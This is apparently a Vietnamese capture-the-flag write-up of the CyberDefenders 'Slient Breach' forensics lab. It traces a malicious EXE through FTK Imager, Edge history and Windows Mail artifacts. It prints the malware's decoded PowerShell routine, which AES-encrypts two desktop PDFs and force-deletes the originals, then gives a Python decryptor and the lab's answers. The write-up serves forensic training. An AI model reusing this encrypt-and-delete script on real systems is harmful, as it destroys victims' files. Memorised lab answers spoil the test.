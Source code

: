 # Slient Breach

![image](images/img1.png)

## Solution

>Q1. What is the MD5 hash of the potentially malicious EXE file the user downloaded?

Nhận được file `ad1`, load vô FTK imager tìm thấy 1 file `exe` khá sú

![image](images/img2.png)

`Answer: 336A7CF476EBC7548C93507339196ABB`

>Q2. What is the URL from which the file was downloaded?

Truy cập vào `History` của  `Microsoft Edge` bằng `DB SQlite`

![image](images/img3.png)

`Answer: http://192.168.16.128:8000/IMF-Info.pdf.exe`

>Q3. What application did the user use to download this file?

Tại câu trên

`Answer: Microsoft Edge`

>Q4. By examining Windows Mail artifacts, we found an email address mentioning three IP addresses of servers that are at risk or compromised. What are the IP addresses?

Trước hết cần xác định xem dịch vụ email nào đã được chạy trên máy, vì mình không thấy thư mục `windows` nên mình bỏ hướng đi check trong `prefetch`. Thay vào đó mình sẽ đi kiểm tra trong `NTUSER.DAT` hive, cụ thể là trong key `Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\
`

![image](images/img4.png)

Sau đó sẽ đi trích xuất file `HxStore.hxd` tại path `C:\Users\AppData\Local\Packages`

![image](images/img5.png)

File này được sinh ra bằng `Windows Mail`, lưu ở định dạng nhị phân, không theo chuẩn `EML/MBOX`, nên mình sẽ dùng strings để đọc file

![image](images/img6.png)

`Answer: 145.67.29.88, 212.33.10.112, 192.168.16.128`

>Q4. By examining the malicious executable, we found that it uses an obfuscated PowerShell script to decrypt specific files. What predefined password does the script use for encryption?

Phân tích file `exe` kia mình dùng strings cho nhanh vì reverse mất khá nhiều thời gian

![image](images/img7.png)

Đoạn mã pwsh khá đơn giản, giải mã chuỗi base64 bị đảo ngược và thực thi nó trực tiếp bằng `Invoke-Expression`. Và đây là nội dung sau khi decode

```powershell
$password = "Imf!nfo#2025Sec$"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

# List of input files
$inputFiles = @(
    "C:\\Users\\ethan\\Desktop\\IMF-Secret.pdf",
    "C:\\Users\\ethan\\Desktop\\IMF-Mission.pdf"
)

foreach ($inputFile in $inputFiles) {
    $outputFile = $inputFile -replace '\.pdf$', '.enc'

    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Key = $key
    $aes.IV = $iv
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $encryptor = $aes.CreateEncryptor()

    $plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

    $outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

    $cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
    $cryptoStream.FlushFinalBlock()

    $cryptoStream.Close()
    $outStream.Close()

    Remove-Item $inputFile -Force
}

```
Thấy được ngay mật khẩu trong script

`Answer: Imf!nfo#2025Sec$`

>Q5. After identifying how the script works, decrypt the files and submit the secret string.

Script trên thực hiện mã hóa 2 file `.pdf` thành 2 file `.enc` bằng `AES-CBC-Padding` với `key` và `iv` đã có sẵn trong đoạn code. Tiến hành decrypt thôi

```python
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Thiết lập mật khẩu và các tham số giải mã
password = "Imf!nfo#2025Sec$"
salt = b"\x01\x02\x03\x04\x05\x06\x07\x08"
iterations = 10000

# Tạo key và IV từ password
data = PBKDF2(password, salt, dkLen=48, count=iterations)
key = data[:32]
iv = data[32:]

# Mở file đã mã hóa
with open("IMF-Mission.enc", "rb") as f:
    encrypted = f.read()

# Giải mã nội dung
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = unpad(cipher.decrypt(encrypted), AES.block_size)

# Ghi ra file PDF
with open("IMF-Mission.pdf", "wb") as f:
    f.write(decrypted)
```

![image](images/img8.png)

`Answer: CyberDefenders{N3v3r_eX3cuTe_F!l3$_dOwnL0ded_fr0m_M@lic10u5_$erV3r}`
